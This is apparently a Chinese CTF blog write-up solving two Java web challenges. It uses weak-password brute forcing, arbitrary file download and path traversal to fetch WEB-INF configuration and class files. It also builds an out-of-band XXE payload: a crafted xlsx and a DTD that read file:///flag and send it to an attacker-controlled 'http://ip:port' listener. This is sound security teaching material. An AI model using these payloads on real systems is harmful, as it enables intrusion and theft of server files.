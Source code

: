 ```yaml
---
title: buu一道简单java web
date: 2024-10-09 19:14:26
permalink: /pages/24d392/
sidebar: false
author: 
  name: Cola
  link: https://the0n3.top
---
```

## [RoarCTF 2019]Easy Java

buu平台一道简单java web[[RoarCTF 2019]Easy Java](https://buuoj.cn/challenges#[RoarCTF%202019]Easy%20Java)

![1](https://the0n3.top/medias/buujava/1.png)

打开题目，一个登录页面，可以bp爆破出弱密码`admin/admin888`

![2](https://the0n3.top/medias/buujava/2.png)

登录页没什么内容

![3](https://the0n3.top/medias/buujava/3.png)

尝试首页的`help`，路由像是存在任意文件下载漏洞，没有下载`help.docx`文件，换成post请求才能下载文件，这是什么题目，这也是play的一环吗

post发送请求`filename=help.docx`，下载`help.docx`文件，没用

关于`WEB-INF`目录

::: tip
 WEB-INF主要包含一下文件或目录： 
/WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。 
/WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中 
/WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件 
/WEB-INF/src/：源码目录，按照包名结构放置各个java文件。 
/WEB-INF/database.properties：数据库配置文件
:::

下载`/WEB-INF/web.xml`文件，看看服务配置项，里面记录了FLAG的controller

![5](https://the0n3.top/medias/buujava/5.png)

所以可以找`/WEB-INF/classes/com/wm/ctf/FlagController.class`，下载class文件，用[jd-gui下载](https://java-decompiler.github.io/)反编译

![6](https://the0n3.top/medias/buujava/6.png)

flag base64编码了，解码拿到flag


## [网鼎杯 2020 青龙组]filejava

上传文件后，可以下载，下载功能存在目录穿越漏洞

![7](https://the0n3.top/medias/buujava/7.png)

![8](https://the0n3.top/medias/buujava/8.png)

穿越下载java web的配置文件web.xml

![9](https://the0n3.top/medias/buujava/9.png)

下载实现主要功能的class文件`DownloadServlet.class`,`ListFileServlet.class`,`UploadServlet.class`

在java web中，这些文件在`/WEB-INF/classes`目录下的自定义package下，也就是这里的`/cn/abc/servlet`下

`url/DownloadServlet?filename=../../../../WEB-INF/classes/cn/abc/servlet/DownloadServlet.class`下载class文件

`jd-gui`反编译class文件，审计源码

审计`DownloadServlet.class`，可以看到存在`flag`时会禁止下载

![10](https://the0n3.top/medias/buujava/10.png)

审计`ListFileServlet.class`，没有什么可以利用的

![11](https://the0n3.top/medias/buujava/11.png)

审计`UploadServlet.class`，如果上传的文件名是`excel-`开头，`.xlsx`结尾，那么会尝试读取文件的xml文件。doc， xlsx等文件实质是zip压缩包，里面存在一个xml文件，可以创建一个正常的excel文件，改扩展名为zip，把里面内容替换为恶意xml内容，再压缩，改回xlsx扩展名，上传。打一个xxe漏洞

![12](https://the0n3.top/medias/buujava/12.png)

```java
if (filename.startsWith("excel-") && "xlsx".equals(fileExtName))
          try {
            // 读取xml文件，引用vps的dtd文件，利用xxe漏洞读取flag
            Workbook wb1 = WorkbookFactory.create(in);
            Sheet sheet = wb1.getSheetAt(0);
            System.out.println(sheet.getFirstRowNum());
          } catch (InvalidFormatException e) {
            System.err.println("poi-ooxml-3.10 has something wrong");
            e.printStackTrace();
          }
```

这是创建的excel文件修改为zip文件里的xml文件内容，写好后再全部压缩到一个包里，扩展名改回`xlsx`，文件名`excel-1.xlsx`

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE data SYSTEM "http://ip:port/1.dtd">
<data>&send;</data>
<Types xmlns="http://schemas.openxmlformats.org/package/2006/content-types"><Default Extension="rels" ContentType="application/vnd.openxmlformats-package.relationships+xml"/><Default Extension="xml" ContentType="application/xml"/><Override PartName="/xl/workbook.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.sheet.main+xml"/><Override PartName="/xl/worksheets/sheet1.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/theme/theme1.xml" ContentType="application/vnd.openxmlformats-officedocument.theme+xml"/><Override PartName="/xl/styles.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.styles+xml"/><Override PartName="/docProps/core.xml" ContentType="application/vnd.openxmlformats-package.core-properties+xml"/><Override PartName="/docProps/app.xml" ContentType="application/vnd.openxmlformats-officedocument.extended-properties+xml"/></Types>
```


vps进入一个空目录，新建1.dtd文件，内容为

```xml
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://ip:port/?%file;'>">
%all;
```

开启一个web服务，端口要和上面xml，dtd的端口一致

```bash
python3 -m http.server 4444
```

上传文件，可以在日志看到目标主机带着flag的访问

![14](https://the0n3.top/medias/buujava/14.png)

![13](https://the0n3.top/medias/buujava/13.png)



参考：

- [BUUCTF：[RoarCTF 2019]Easy Java](https://blog.csdn.net/mochu7777777/article/details/109572179)
- [常见java反编译工具 _](https://hksanduo.github.io/2021/06/22/2021-06-22-java-decompiler-tools/#)
- [网鼎杯2020青龙组 web writeup ](https://www.cnblogs.com/W4nder/p/12866365.html)